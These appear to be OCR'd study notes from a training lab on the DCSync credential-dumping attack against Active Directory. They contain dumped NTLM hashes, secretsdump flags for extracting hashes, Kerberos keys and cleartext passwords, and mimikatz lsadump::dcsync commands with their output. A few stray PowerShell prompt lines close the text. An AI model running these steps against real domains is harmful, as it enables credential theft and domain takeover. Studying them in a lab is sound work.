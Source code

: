 ```
[*] PEK# 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
```

Here we are using `-just-dc` flag to to extract NTLM hash and Kerberos Keys from NTDS file.

we can use `-just-dc-ntlm` if we ant only NTLM hash

also we can use, `-just-dc-user <USERNAME>` to extract data for a specific user.

and flag `-user-status` to check if user is disabled.

`-history` to dump password history.

Using `-just-dc` flag creates three file

→ one with NTLM hash → one with Kerberos Keys → one containing cleartext password from the NTDS for any accounts set with reversible encryption

When reversible encryption is enabled in an account, password are not stored in cleartext.Instead, they are stored using RC4 encryption. The trick here is that the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent.

* `PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl` → lists user with reversible encryption set

## **Performing the Attack with Mimikatz**

Using mimikatz we must target a specific user.

also mimikatz should run in the context of the user who has DCSync Privileges, which can be achieved using `runas.exe`

* `C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell`→ running as user adunn

Now in the new powershell, fireup mimikatz

```powershell
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) 
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz 
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
```

[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist